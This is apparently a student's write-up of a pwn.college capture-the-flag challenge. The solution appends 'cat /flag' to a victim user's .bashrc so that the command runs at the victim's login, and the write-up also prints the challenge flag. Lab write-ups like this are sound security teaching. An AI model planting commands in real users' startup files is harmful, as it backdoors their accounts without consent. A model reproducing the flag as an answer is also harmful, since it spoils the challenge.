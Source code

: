 ### Bashrc Backdoor

In this challenge, we'll pretend that you've broken into a victim user's machine! That user is named `zardus`, with a home directory of `/home/zardus`. You, as the `hacker` user, have write access to his `.bashrc`, and `zardus` has read-access to `/flag`. The victim is simulated by the script `/challenge/victim`, and you can launch this script at any time to observe the victim logging into the computer. Can you get the flag?

**flag:** `pwn.college{QwsFslawFk7w03W7xwg2X-ZEvbJ.0VMzEzNxwyNwkzNyEzW}`

What I did: 
- `cd /home/zardus`
- `echo "cat /flag" >> .bashrc`
- Ran `/challenge/victim`
- This gave out the flag

Went to zardus' home directory and put `cat /flag` in his bashrc, so whenever zardus logs in, bashrc will automatically run `cat /flag` to get the flag. 

